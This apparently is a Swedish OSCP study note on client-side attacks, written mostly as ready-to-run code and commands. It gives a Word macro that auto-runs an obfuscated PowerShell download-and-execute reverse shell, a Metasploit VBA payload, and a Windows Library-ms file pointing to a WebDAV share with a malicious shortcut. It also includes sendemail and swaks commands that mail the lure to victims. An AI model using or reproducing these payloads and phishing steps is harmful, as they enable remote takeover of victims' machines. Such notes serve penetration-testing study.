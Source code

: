 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/4-client-side/2-client-side-attacks/"}
---
```


### Macros:
- Välj "Word 97-2003 Document (.doc)"
- Funkar inte med .docx
- Gå till "View" -> Macros -> Skriv ett namn -> Välj dokumentet under "Macros in"
- Lägg till AutoOpen() och Document_Open()

#### Macro Reverse Shell
1. Anpassa revshell:
```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.45.181 -p 4444 -e powershell
```
2. Encoda till base64:
```
www.base64encode.org

#Välj 'UTF-16LE' under 'Destination Character Set'
```
3. Skapa strängar att binda ihop i macrot m.h.a. python:
```python
str = "powershell.exe -nop -w hidden -e <bae64-encoded-string>"

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```
4. Sätt ihop strängarna med resterande delar av macrot:
```python
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAd"
	Str = Str + "wAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAA"
	Str = Str + "uAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhA"
	Str = Str + "GQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADI"
	Str = Str + "ALgAxADYAOAAuADEAMQA5AC4AMgAvAHAAbwB3AGUAcgBjAGEAd"
	Str = Str + "AAuAHAAcwAxACcAKQA7AHAAbwB3AGUAcgBjAGEAdAAgAC0AYwA"
	Str = Str + "gADEAOQAyAC4AMQA2ADgALgA0ADUALgAxADgAMQAgAC0AcAAgA"
	Str = Str + "DQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsAA="
	Str = Str + "="

    CreateObject("Wscript.Shell").Run Str
End Sub
```
5. Sätt upp python-server med powercat och sätt upp lyssnare:
```bash
cd /usr/share/windows-resources/powercat/
python3 -m http.server 80
nc -lvnp 4444
```

#### Metasploit Macro:
```
use windows/meterpreter/reverse_https  
set PAYLOAD windows/meterpreter/reverse_https  
set LHOST Your_IP_Address  
set LPORT 443  
set AutoRunScript post/windows/manager/smart_migrate  
generate -f vba
```

-------------
### Windows Library Files
- Skickar en '.Library-ms'-fil till offret
- Filsystemet i windows kopplar sig mot en uppsatt WebDAV innehållandes en '.lnk'-fil
- Svårt att servera lnk-filen direkt till offret då det mest troligt kommer filtreras bort, så därför detta bra alternativ
- Kommer se ut som ett vanligt directory i Windows vilket är legit

#### Instruktioner:
1. Skapa webdav-mapp någonstans:
```bash
mkdir /home/kali/webdav
```
2. Boota upp webdaven:
```bash
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```
3. Skapa en '.Library-ms'-fil med typ VSCode
4. Fyll filen med XML-kod som gör den mer legit.
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://web-dav-url</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
5. Skapa shortcut-fil på webdaven som pekar mot reverse-shell:
```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.181:8000/powercat.ps1'); powercat -c 192.168.45.181 -p 4444 -e powershell"
```
![Pasted image 20230706132751.png|550](/img/user/IMAGES/Pasted%20image%2020230706132751.png)
6. Sätt upp python-server med powercat och sätt upp lyssnare:
```bash
cd /usr/share/windows-resources/powercat/
python3 -m http.server 80
nc -lvnp 4444
```

Notes:
- Bild-index -1002 = documents folder icon, -1003 = pictures folder icon
- På grund av att windows ändrar på filen i syfte att optimera kan filen sluta funka efter restart eller liknande.
- Om vill pusha confen till smb:
```bash
cd <web-dav-dir>
smbclient //<client-ip>/share -c 'put <filnamn>.Library-ms'
```
-----------------
#### SendEmail:
```bash
sendemail -f crabfeather@localhost -t dave.wizard@supermagicorg.com -a config.Library-ms -s 192.168.224.199 -m "hello mr, please open file"
```
-----------------
#### Swaks:
```
sudo swaks -t <targetmail1> -t <targetmail2> --from <authmail> --attach @config.Library-ms --server <smtpserver> --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```
Example:
```
sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.50.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```

